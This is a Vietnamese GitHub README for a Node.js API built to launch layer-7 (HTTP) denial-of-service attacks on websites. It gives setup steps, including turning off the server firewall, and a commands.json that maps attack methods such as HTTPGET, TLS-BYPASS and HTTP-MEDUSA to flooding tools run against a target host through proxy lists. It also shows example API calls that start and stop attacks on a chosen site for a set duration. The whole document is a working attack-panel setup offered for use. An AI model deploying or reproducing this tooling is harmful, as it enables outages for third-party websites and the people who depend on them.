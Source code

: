<h2>API NodeJS cho các cuộc tấn công layer 7</h2>

<h4>API này rất an toàn và nhanh gấp đôi thời gian ping giữa API và chương trình phụ trợ</h4>
<h4>tức là ping 60 mili giây, sẽ chỉ mất 120 mili giây để khởi chạy cuộc tấn công</h4>


<h2>Cài đặt:</h2>

<h3>cài đặt nodejs</h3>

***ubuntu*** 
```sh
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.0/install.sh | bash
source ~/.bashrc
nvm install 14.17.3
nvm use 14.17.3
npm i express
```

***centos***
```sh
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.38.0/install.sh | bash
source ~/.nvm/nvm.sh
nvm install 14.17.3
nvm use 14.17.3
npm i express
```

<h3>cài đặt nginx</h3>h3>

<h3>tắt tường lửa</h3>h3

***centos***
```sh
sudo service iptables stop
sudo chkconfig iptables off
sudo systemctl stop firewalld
sudo systemctl disable firewalld
```

<h2>Setup:</h2>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./http ${host} proxy.txt ${time}",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./http ${host} proxy.txt ${time}",
    "TLS-BYPASS": "screen -dmS attack_${attack_id} node TLS-BYPASS ${host} ${time} 30 proxies.txt 30",
    "HTTP-MEDUSA": "screen -dmS attack_${attack_id} ./HTTP-MEDUSA ${host} ${time} 30 30",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```js
const api_port = 8888; // Cổng API
const socket_token = "SOCKET_TOKEN"; // Mã thông báo TCP Socket, sử dụng số/chữ cái ngẫu nhiên
const api_key = "API_KEY"; // Khóa API của bạn
const domain_lock = false; // khóa api để chỉ được sử dụng từ một tên miền cụ thể
const api_domain = 'example.com'; // miền API của bạn (nếu domain_lock được đặt thành true)
```

<h3>Update socket.js:</h3><br>

```js
const socket_port = 8888;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

<h3> Sau đó, tải `socket.js` lên máy chủ tấn công và tải `api.js` `servers.json` và `commands.json` lên máy chủ API</h3>

```js
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/api.js
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/commands.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/servers.json
```
```js
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/socket.js
```

<h3> Khởi động</h3>

```js
screen -S api -dm node api.js
```
```js
screen -S socket -dm node socket.js
```

<h3> Proxy đảo ngược</h3>h3

***Bạn nên tạo proxy ngược bằng Nginx để sử dụng API của mình:***

```nano /etc/nginx/nginx_conf```
```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:8888/api/attack;
    }
}
```

***Thay thế*** `'http://backend:8888/api/attack'` ***bằng IP máy chủ API của bạn***

<h2> Sử dụng API</h2>

***Gửi yêu cầu tới API bằng các trường bắt buộc***

`http://api.yourdomain.com:8888/api/attack?api_key=key&host=https://website.com&time=120&method=HTTPGET&server=1`

***Bạn có thể dừng các cuộc tấn công bằng cách gửi yêu cầu tới API sử dụng*** `&method=stop`

`http://api.yourdomain.com:8888/api/attack?api_key=key&host=https://website.com&time=120&method=stop&server=1`
